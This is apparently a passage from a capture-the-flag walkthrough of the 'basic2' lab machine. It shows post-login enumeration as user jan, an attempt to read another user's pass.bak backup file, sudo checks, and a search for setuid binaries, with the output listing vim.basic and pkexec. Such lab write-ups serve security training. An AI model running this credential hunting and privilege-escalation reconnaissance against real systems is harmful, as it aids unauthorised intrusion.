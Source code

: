 ```bash
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
jan@basic2:~$ 
```
15. `whoami` to verify that we connected as the user we authenticated as, which we are
16. `ls` to list the files and directories that are in our current working directory
17. `ls /` to list the files and directories in the root directory of the target's filesystem 
18. `ls /home` to list the files and directories in the target's **/home** directory
19. `ls /home/kay` to list the files and directories in the target's **/home/kay** directory onto our terminal
20. `cat /home/kay/{FILE4}.bak` to output the contents of the backup file onto our terminal, which ended up not working since the current user we're running as doesn't have the necessary permissions to run that command
```bash
jan@basic2:~$ ls
```
```bash
jan@basic2:~$ ls /
bin   dev  home        initrd.img.old  lib64       media  opt   root  samba  snap  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   sbin   srv   tmp  var  vmlinuz.old
```
```bash
jan@basic2:~$ ls /home
jan  kay
```
```bash
jan@basic2:~$ ls /home/kay
pass.bak
```
```bash
jan@basic2:~$ cat /home/kay/pass.bak
cat: /home/kay/pass.bak: Permission denied
```


# Post Exploitation
> Privilege Escalation
21. `sudo -l` to list the privileges or permissions that the current user has with the **sudo** command
```bash
jan@basic2:~$ sudo -l
[sudo] password for jan: 
Sorry, user jan may not run sudo on basic2.
```
22. `find / -perm -u=s -type f 2>/dev/null` to search for files on the target's system that has the setuid permission bit set while redirecting any error messages to the /dev/null file
```bash
jan@basic2:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/vim.basic
/usr/bin/pkexec
/usr/bin/newgrp
```